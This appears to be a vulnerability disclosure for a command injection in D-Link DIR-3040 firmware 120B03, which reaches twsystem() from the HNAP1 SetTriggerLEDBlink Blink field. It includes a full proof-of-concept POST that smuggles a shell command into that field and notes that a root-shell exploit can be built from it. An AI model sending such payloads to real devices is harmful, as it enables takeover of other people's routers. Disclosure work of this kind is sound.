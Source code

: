 # D-link DIR3040_A1_FW120B03.bin Command injection vulnerability

## Overview

- Manufacturer's website information：https://www.dlink.com/
- Firmware download address ：https://tsd.dlink.com.tw/


A problem was found on the D-Link DIR-3040 device with firmware 120B03. This problem is a command injection that allows remote attackers to execute arbitrary code and obtain a root shell. Command injection vulnerabilities allow attackers to execute arbitrary operating system commands via a crafted/HNAP1 POST request.


## Vulnerability details

DIR-3040 prog.cgi  Keyword api SetTriggerLEDBlink

![](../img/Snipaste_2022-10-26_10-27-18.png)

The content obtained by the program through the / settriggerledblink / blink parameter is passed to nptr, and then nptr passes the matched content to V6 through the sprintf function, and then V6 is brought into the twsystem function

![](../img/Snipaste_2022-10-26_10-57-22.png)

At this time, the corresponding parameter is A1

![](../img/Snipaste_2022-10-26_10-56-51.png)

twsystem() function will pass in two parameters, the first is the parameter address, and the second is a constant. This function forks () a child process, and then executes a system call (execv()) in the child process.

##  POC

1. Attack with the following POC attacks

```xml
POST /HNAP1/ HTTP/1.1
Host: 192.168.0.1:7018
User-Agent: Mozilla/5.0 (Macintosh; Intel Mac OS X 10.15; rv:98.0) Gecko/20100101 Firefox/98.0
Accept: text/xml
Accept-Language: zh-CN,zh;q=0.8,zh-TW;q=0.7,zh-HK;q=0.5,en-US;q=0.3,en;q=0.2
Accept-Encoding: gzip, deflate
Content-Type: text/xml
SOAPACTION: "http://purenetworks.com/HNAP1/SetNetworkSettings"
HNAP_AUTH: 3C5A4B9EECED160285AAE8D34D8CBA43 1649125990491
Content-Length: 632
Origin: http://192.168.0.1:7018
Connection: close
Referer: http://192.168.0.1:7018/Network.html
Cookie: SESSION_ID=2:1556825615:2; uid=TFKV4ftJ

<?xml version="1.0" encoding="UTF-8"?>
<soap:Envelope xmlns:xsi="http://www.w3.org/2001/XMLSchema-instance" xmlns:xsd="http://www.w3.org/2001/XMLSchema" xmlns:soap="http://schemas.xmlsoap.org/soap/envelope/">
<soap:Body>
  <SetLEDStatus xmlns="http://purenetworks.com/HNAP1/">
		<Enabled>false</Enabled>
  </SetLEDStatus>
  <SetTriggerLEDBlink>
  	<Blink>&& ls > /tmp/456 &&echo 1></Blink>
	</SetTriggerLEDBlink>
</soap:Body>
</soap:Envelope>

```

Finally, you can write exp, which can achieve a very stable effect of obtaining the root shell